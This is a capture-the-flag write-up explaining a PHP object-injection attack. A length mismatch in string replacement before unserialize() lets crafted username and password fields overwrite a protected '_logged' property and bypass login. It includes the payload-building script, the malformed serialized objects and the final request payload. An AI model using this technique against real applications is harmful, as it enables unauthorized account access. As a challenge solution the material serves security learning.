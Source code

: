 ```yaml
---
layout: default
title: PHP-Unserialize-overflow
---
```


Here we can see the gadget we want to use:
```php
if (isset($_POST['submit'])) {
    $currentUser = new User($_POST['username'], $_POST['password']);
    $isLogged = $currentUser->getUsername() === 'admin' && 
        hash('sha512',$currentUser->getPassword()) === 'b3b7b663909f8e9b4e2a581337159e8a5e468c088ec802cb99a027c1dcbefb7d617fcab66ab4402d4617cde33f7fce93ae3c4e8f77aec2bb5f8c7c8aec3bbc82'; // don't try to bruteforce me this is useless
    $currentUser->setLogged($isLogged);
    $errorMsg = ($isLogged) ? '' : 'Invalid username or password.';
    storeUserSession($currentUser);
} else {
    $currentUser = getUserSession();
}

if ($currentUser->isLogged()) {
    echo 'you are logged in! congratz, the flag is: ' . $FLAG;
    die();
}
```

As you can see, our mission is to override `_logged` and set it to true.

The vulnerability in the challenge is the overflow, because as you can see here:
```php
function storeUserSession($user)
{
    $serialized_value = serialize($user);
    // avoid the storage of null byte, replace it with \0 just in case some session storage don't support it
    // this is done because protected object are prefixed by \x00\x2a\x00 in php serialisation
    $data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $serialized_value);
    $_SESSION['user'] = $data;
}

function getUserSession()
{
    $user = null;
    if (isset($_SESSION['user'])) {
        $data = $_SESSION['user'];
        $serialized_user = str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
        $user = unserialize($serialized_user);
    } else {
        $user = new User('guest', '');
    }
    return $user;
}
```
Before deserialization, it replaces all `\0\0\0` with `chr(0) . "*" . chr(0)`, which takes 3 bytes less.

So, if for example we give this as username: `\0\0\0`, the length will be `6`, but after deserialization, the actual length is only 3, so it can "drink" bytes from the rest of the serialized string.

By this way, we can manipulate the string as we wish.

This is the code I've used to create the payload, will explain in details after this snippet.
```php
class User
{
    protected $_username;
    protected $_password;
    protected $_logged = false;
    protected $_email = '';
    
    public function setUsername($username){
    	$this->_username=$username;
    }

    public function setPassword($password){
    	$this->_password=$password;
    }
    
    public function getUsername(){
    	return $this->_username;
    }
    
    public function getPassword(){
    	return $this->_password;
    }
    
    public function isLogged(){
    	return $this->_logged;
    }
}


$user = new User();


$len_username = 30;
$len_email = 45;

$user->setUsername(str_repeat('\0',$len_username));
$user->setPassword('""";s:10:"\0\0\0_logged";b:1;s:12:"\0\0\0_password";s:3:"bla";s:9:"\0\0\0_email";s:' . $len_email . ':"');

echo "username: " . $user->getUsername() ."\n";
echo "password: " . $user->getPassword() ."\n";
// echo str_repeat('-',strlen($user->getUsername()))."\n";
$serialized_user = serialize($user);
$data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $serialized_user);
echo "regular object:\n";
echo $data."\n";


$serialized_user = str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
echo "after replacement:\n";
echo $serialized_user."\n";

$obj = unserialize($serialized_user);
var_dump($obj);
```

So, regular serialized object will look like this:
```
O:4:"User":4:{s:12:" * _username";s:4:"user";s:12:" * _password";s:3:"bla";s:10:" * _logged";b:0;s:9:" * _email";s:3:"bla";
```
Our mission is to override inside `_username` until the `_password` field, and then in password we can give our malformed payload for `_login`, `_password` and `_email`, and in `_email` we'll override till the end.

So, this is our FINAL malformed serialized object:
```
{s:12:"�*�_username";s:60:"�*��*��*��*��*��*��*��*��*��*�";s:12:"�*�_password";s:87:"""";s:10:"�*�_logged";b:1;s:12:"�*�_password";s:3:"bla";s:9:"�*�_email";s:45:"";s:10:"�*�_logged";b:0;s:9:"�*�_email";s:0:"";}
```

Let's replace all the strings with `-`, so in username there would be 60 `-` and so on:
```
{s:12:"�*�_username";s:60:"------------------------------------------------------------";s:10:"�*�_logged";b:1;s:12:"�*�_password";s:3:"---";s:9:"�*�_email";s:45:"---------------------------------------------";}
```

As you can see, we've got very cute serialized object, which after deserialization gives us this:
```php
object(User) (4) {
  ["_username":protected]=>
  string(60) "�*��*��*��*��*��*��*��*��*��*�";s:12:"�*�_password";s:87:""""
  ["_password":protected]=>
  string(3) "bla"
  ["_logged":protected]=>
  bool(true)
  ["_email":protected]=>
  string(45) "";s:10:"�*�_logged";b:0;s:9:"�*�_email";s:0:""
}
```

So, for summary our payload will be:
```
username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=""";s:10:"\0\0\0_logged";b:1;s:12:"\0\0\0_password";s:3:"bla";s:9:"\0\0\0_email";s:45:"
```

![FINAL](./images/PHP-Unserialize-overflow_FINAL.png)

**Flag:** ***`B3Carrefull-w1th_Unseri4l1ze`***
